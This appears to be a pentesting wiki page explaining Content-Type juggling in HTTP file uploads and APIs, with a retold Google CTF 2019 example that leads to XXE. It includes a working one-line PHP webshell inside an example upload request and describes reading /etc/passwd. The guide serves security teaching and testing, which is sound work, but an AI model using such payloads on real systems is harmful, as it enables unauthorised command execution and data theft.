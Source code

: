 # Content-type juggling

## Theory

**Content-type juggling** exploits the lack of checking on the `Content-Type` header when submitting a HTTP request.

**Most of the time, Content-Type juggling is a component that allows attacks to be carried out such as [unrestricted-file-upload](unrestricted-file-upload.md) or [xxe-injection](content-type-juggling#example-of-a-content-type-juggling-attack-on-api)**.

{% hint style="info" %}

The Content-Type header is used to indicate the MIME type of the resource.

- In requests, (such as POST or PUT), the client tells the server what type of data was actually sent.

- In responses, a Content-Type header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

{% endhint %}


### Example

Let's take this HTML form and the POST request following the submit of this form. 

```HTML
<form action="/" method="post" enctype="multipart/form-data">
  <input type="text" name="description" value="some text" />
  <input type="file" name="myFile" />
  <button type="submit">Submit</button>
</form>
```

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The first `Content-Type` header use the `enctype`. The second one tells the server what type of data was actually sent, here, a file.

### Vulnerability

It is possible to intercept the request above and perform a `Content-Type juggling`. To do this, switch the Content-Type Header to whatever you want.
In the example below, we managed to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

{% hint style="danger" %}

If the XCTO (X-Content-Type-Options) security header is present, it will be difficult to perform the Content-Type juggling. As you can read in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). XCTO security header can be used to indicate that the MIME types advertised in the Content-Type headers should be followed and not be changed by the browser depending on the page's content. Websites that implement that security header with the nosniff directive must also include a valid Content-Type header in their responses.

{% endhint %}

## Practice

In order to identify if the target is vulnerable to Content-Type juggling, testers need to answer the following questions:&#x20;
- Is there a post request with value(s) and Content-Type header ?
- Is there no presence of the X-Content-Type-Options security header ?
- Can we edit the Content-Type header and still submit the post request successfully ?

If you answered yes to all the questions, then you should be able to perform Content-Type juggling. Don't forget that, most of the time, Content-Type juggling is a way to upload unattended payload (reverse-shell when the form is used to submit pictures).

<details>

<summary>Here is the list of all the mist common the Content-Type possibilities : &#x20;</summary>


1. Type application
    - application/java-archive
    - application/EDI-X12   
    - application/EDIFACT   
    - application/javascript   
    - application/octet-stream   
    - application/ogg   
    - application/pdf  
    - application/xhtml+xml   
    - application/x-shockwave-flash    
    - application/json  
    - application/ld+json  
    - application/xml   
    - application/zip  
    - application/x-www-form-urlencoded
2. Type audio
    - audio/mpeg   
    - audio/x-ms-wma   
    - audio/vnd.rn-realaudio   
    - audio/x-wav   
3. Type image
    - image/gif   
    - image/jpeg   
    - image/png   
    - image/tiff    
    - image/vnd.microsoft.icon    
    - image/x-icon   
    - image/vnd.djvu   
    - image/svg+xml   
4. Type multipart
    -  multipart/mixed    
    -  multipart/alternative   
    -  multipart/related (using by MHTML (HTML mail).)  
    -  multipart/form-data  
5. Type text
    - text/css    
    - text/csv    
    - text/html    
    - text/javascript (obsolete)    
    - text/plain    
    - text/xml   
6. Type video
    - video/mpeg    
    - video/mp4    
    - video/quicktime    
    - video/x-ms-wmv    
    - video/x-msvideo    
    - video/x-flv   
    - video/webm    
7. Type vnd
    - application/vnd.android.package-archive
    - application/vnd.oasis.opendocument.text    
    - application/vnd.oasis.opendocument.spreadsheet  
    - application/vnd.oasis.opendocument.presentation   
    - application/vnd.oasis.opendocument.graphics   
    - application/vnd.ms-excel    
    - application/vnd.openxmlformats-officedocument.spreadsheetml.sheet   
    - application/vnd.ms-powerpoint    
    - application/vnd.openxmlformats-officedocument.presentationml.presentation    
    - application/msword   
    - application/vnd.openxmlformats-officedocument.wordprocessingml.document   
    - application/vnd.mozilla.xul+xml   
    
</details>
 
### Example of a Content-Type Juggling attack on API leading to XXE

For this example, we're going to use the writeup from [Nicholaz99](https://github.com/Nicholaz99) explaining one of the GoogleCTF challenge from 2019.
The first URL lead to this page, that is a form that we can submit.

![WebPage from GoogleCTF 2019](../../.gitbook/assets/CT-JUGGLING-1.png)

When intercepting the request, we can see that the search API will post a JSON with key “message” and a value of the city that you pick in Braille Dots (Zurich =  135601360123502401401250). 

![Intercepting the request](../../.gitbook/assets/CT-JUGGLING-2.png)

Now, we can start answering the practice questions that we mentioned above. In this case, the two first can be answered by "yes". For the third, we have to try to perform a Content-Type juggling. We are going to change the Content-Type from `application/json` to `application/xml`. Doing so, we can try to execute a XXE payload.

![Performing Content-Type smuggling](../../.gitbook/assets/CT-JUGGLING-3.png)

As you can see above, it works. By combining Content-Type juggling with another attack, it's possible to extract informations.

The last screenshot shows how to perform a blind XXE. You can read more about it in [xxe-injection](xxe-injection.md). Doing so, we are able to extract the "/etc/passwd" file on the server.

![Crafting an XXE payload to extract /etc/passwd](../../.gitbook/assets/CT-JUGGLING-4.png)


## Ressources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee2" %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
